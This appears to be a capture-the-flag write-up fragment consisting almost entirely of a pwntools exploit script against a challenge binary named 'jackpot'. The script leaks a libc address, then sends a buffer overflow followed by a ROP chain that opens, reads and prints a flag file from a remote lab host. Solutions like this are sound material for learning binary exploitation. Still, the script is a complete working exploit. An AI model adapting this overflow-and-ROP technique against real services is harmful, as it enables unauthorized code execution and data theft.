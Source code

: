 ```py=
from pwn import *
from time import *

# context(arch='i386', os='linux', log_level='debug')
context(arch = 'amd64', os = 'linux')

context.terminal = ['tmux', 'splitw', '-h']
#r = remote("172.18.0.2", 1224)
#r = remote("10.105.0.21" ,12978)
#r = process("./jackpot")
r = remote("10.105.0.21", 12767)
lib = ELF("./libc.so.6")
#lib = ELF("/lib/x86_64-linux-gnu/libc.so.6")
r.recvuntil(b': ')
r.sendline("31")
r.recvuntil('ticket')
a = int(r.recv(16), 16)
print(hex(a))
#libc = int(r.recvline()[:-1], 16) - 0x29d90
#print(hex(libc))
libc = a - 0x29d90
#gdb.attach(r)
r.recvuntil(":")

exita = 0x0401120
leave = 0x0401438
bss = 0x0000000000404180

pop_rsi = libc + 0x000000000002be51
pop_rdi = libc + 0x000000000002a3e5
pop_rdx = libc + 0x00000000000796a2
flag = 0x040201f

sys_write = libc + lib.sym['write']
sys_open = libc + lib.sym['open']
sys_read = libc + lib.sym['read']
#gdb.attach(r)

r.sendline(b"A" * (0x78) + flat(
  pop_rdi, flag,
  pop_rsi, 0,
  sys_open,
  pop_rdi, 3,
  pop_rsi, bss + 0x50,
  pop_rdx, 0x30,
  sys_read,
  pop_rdi, 1,
  #pop_rsi, bss + 0x50,
  sys_write,
  leave
))
a = r.recvline()

print(a)
#a = r.recv()
#print(a)
r.interactive()
```
![image](https://hackmd.io/_uploads/ByJ7Myu_6.png)
